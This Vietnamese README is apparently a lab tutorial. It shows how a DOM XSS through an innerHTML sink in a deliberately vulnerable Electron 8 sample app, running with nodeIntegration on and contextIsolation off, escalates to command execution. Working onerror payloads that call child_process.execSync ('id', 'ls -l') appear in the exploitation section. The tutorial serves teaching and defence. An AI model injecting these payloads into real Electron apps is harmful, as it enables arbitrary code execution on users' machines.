 # RCE-to-XSS-Electron-8.0.0


Ứng dụng Electron 8.0.0 là một phiên bản cũ của Electron, được sử dụng để xây dựng các ứng dụng desktop chéo nền tảng (cross-platform) bằng công nghệ web như JavaScript, HTML và CSS. 

Mặc dù mang lại nhiều lợi ích bằng việc cho phép phát triển các ứng dụng desktop ngang hàng với web bằng JavaScript, HTML, và CSS, nhưng cũng tiềm ẩn rủi ro về bảo mật, cụ thể là lỗ hổng XSS đến RCE (Remote Code Execution).

Tổng quan : XSS to RCE

Setup 

  Sử dụng Electron 8.0.0 open source 
  
  URL Download : https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
 
  Commands
```
wget https://github.com/standardnotes/desktop/archive/v2.0.0.tar.gz
tar xvfz v2.0.0.tar.gz
cd desktop-2.0.0/
npm audit
```
![1](https://github.com/Lilly-dox/Exploit-CVE-2023-22518/assets/130746941/47051781-9a54-4831-8142-e6b165d3b16c)

Chúng ta nhận được output :
```
npm ERR! code ENOLOCK
npm ERR! audit This command requires an existing lockfile.
npm ERR! audit Try creating one first with: npm i --package-lock-only
npm ERR! audit Original error: loadVirtual requires existing shrinkwrap file

npm ERR! A complete log of this run can be found in:
npm ERR!     /home/lilly-dox/.npm/_logs/2024-03-20T15_39_01_845Z-debug-0.log
```
Như lỗi trên hiển thị, chúng ta phải tạo tệp pack-lock.json, sử dụng lệnh được cung cấp trong báo lỗi để xử lý 
```
npm i --package-lock-only
```
sau đó chạy lại command :
```
npm audit
```
![2](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/cd2349ca-7629-42b6-bbe5-6d69c97d7425)

XSS to RCE
Download the first vulnerability file :
<file vulnerable1.zip>

File : 
vulnerable1/main.js
![3](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4a7efd61-c551-4b04-9c42-72ebdbd4222f)

Như đã thấy :
1. `nodeIntegration` được bật (`nodeIntegration: true`)**:
    - nodeIntegration được bật, trang web có thể tự do sử dựng các module Node.js. Mặc dù việc kích hoạt tính năng này có thể thuận tiện cho các nhà phát triển nhưng nó làm tăng đáng kể rủi ro bảo mật. Nếu kẻ tấn công khai thác lỗ hổng XSS (Cross-Site Scripting) trong ứng dụng, chúng có thể sử dụng API Node.js để thực hiện các hành động độc hại trên hệ thống của người dùng, chẳng hạn như đọc/ghi tệp hoặc thực thi lệnh, dẫn đến Mã từ xa Lỗ hổng thực thi (RCE).
2. `contextIsolation` bị tắt (`contextIsolation: false`)**:
    - contextIsolation là  Là một tính năng bảo mật khác của Electron, phân cách môi trường giữa các mã nguồn được thực thi trong renderer. Nếu contextIsolation bị tắt, nó giúp mã độc có khả năng truy cập vào các APIs và mở đường cho RCE nếu người dùng bị tấn công XSS.

Chúng ta sẽ lợi dụng sự tự do truy cập các API Node.js

Nói qua 1 xíu về API Node.js
API Node.js là môi trường thực thi code Javascript phía server máy chủ . sử dụng V8 engine, engine Javascript cùng một loạy các API tích hợp để cung cấp CHỨC NĂNG TƯƠNG TÁC VỚI HỆ ĐIỀU HÀNH hơn là chỉ chạy trong môi trường trình duyệt thông thường nhưu javascript .

Module thường xuyên bị attacker lợi dụng , nhất là khi API Node.js được dùng trong một môi trường với ít các biện pháp bảo mật , như là Electron khi ‘nodeIntegration’ <nút tích hợp> được bật . Các module thường bị lợi dụng là:
1.	Child_process : module cho pháp thực thi lệnh hệ thống hoặc các chương trình khác . Đại loại là child_process sẽ được lợi dụng để chạy shell .
2.	fs ( File system ) : lợi dụng để chỉnh sửa xóa , thêm file tùm lum . Cài phần mêm độc hại như file upload 
3.	‘net’ và ‘dgram’ : chiếm quyền tương tác với giao thực mạng TCP , UDP -> mở kết nối mạng độc hại hoặc thực hiện Dos
4. **`vm`**: Đây là một module cho phép bạn thực thi JavaScript trong một context ảo. Nó có thể bị lợi dụng để chạy mã độc trong một môi trường tưởng chừng được cô lập.
    5. **`os` và `path`**: Mặc dù ít nguy hiểm hơn các module khác, nhưng khi được kết hợp với các module như `fs`, chúng có thể được sử dụng để xây dựng các đường dẫn đến các tệp tin quan trọng hoặc thu thập thông tin về hệ thống mục tiêu.
=> Sử dụng suyntax của API Node.js để khai thác

Chúng ta sẽ ứng dụng và giải thích luôn 1 payload điển hình : 
```
<img src=x onerror="alert(require('child_process').execSync('id').toString());">
```
1.	<img src=x : đoạn script này bắt đầu định nghĩa HTML image element.
Gán cho src=x nghĩa là không phải đường dân ảnh source ảnh hợp lệ . Nên đương nhiên sẽ kích hoạt sang onerror <đây là cố tình không điền src hợp lệ để điều hướng thực thi qua onerror >
2.	onerror= : đây là thuộc tính xử lí được kích hoạt khi src không hợp lệ
3.	alert(require(‘child_process’).execSync(‘id’).toString()); : Code Javascript này được thực thi do sự kiện onerror . 
*  Phần require(‘child_process’).execSync(‘id’) là lệnh Node.js sử dụng module child_process để thực thi lệnh hệ thống (system command) ‘id’ , lệnh này sẽ output ID của nhóm và người dùng thực (real and effective user and group IDs)
*  Phương thức execSync có nghĩa là thực thi lệnh một cách đồng bộ
execSync (viết tắt của executes synchronnously : thực thi đồng bộ). Nghĩa là nó sẽ chặn việc thực thi tiếp theo cho đến khi lệnh hệ thống (system command) trả về kết quả . 
Lệnh ‘id’ trả về thông tin về người dùng hiện tại như là ID người dùng (uid), ID nhóm (gid) và bất kì thành viên nhóm nào .

* Phương thức .toString() : chuyển đổi đầu ra của lệnh từ bộ đệm thành biểu diễn chuỗi (from buffer to a string representation)

* alert() là phương thức javascript tiêu chuẩn để hiển thị hộp thoại cánh báo với nội dung được chỉ định


File:
renderer.js

 ![4](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/fe5546a0-8657-437a-b3b6-1167166ac820)


 Nhận diện có innerHTML sink -> DOM XSS in innerHTML sink 

Khai thác :
 Dựng vulnerable1 lên để khai thác
 Commands:
 ```
 cd /path/to/vulnerable1
 npm install
 npm start
```
![5](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/0fde2e41-b063-472b-a976-925dadbc6806)

Sau khi start :

![6](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/4041753a-dbf7-4d33-b79c-6fdf1b70ca78)

Payloads :
```
test <img src=x onerror=alert("XSS")>
```
![7](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/57a12b6f-4691-46f8-8841-f3f067992d80)

```
<img src=x onerror="alert(require('child_process').execSync('id').toString());"> 
```
![8](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/901d21ef-5400-4c16-955f-d063213abd26)

```
<img src=x onerror="alert(require('child_process').execSync('ls -l').toString());">
```
![9](https://github.com/Lilly-dox/RCE-to-XSS-Electron-8.0.0/assets/130746941/e0859aa1-ac5e-4189-ad9f-77f706a640d1)





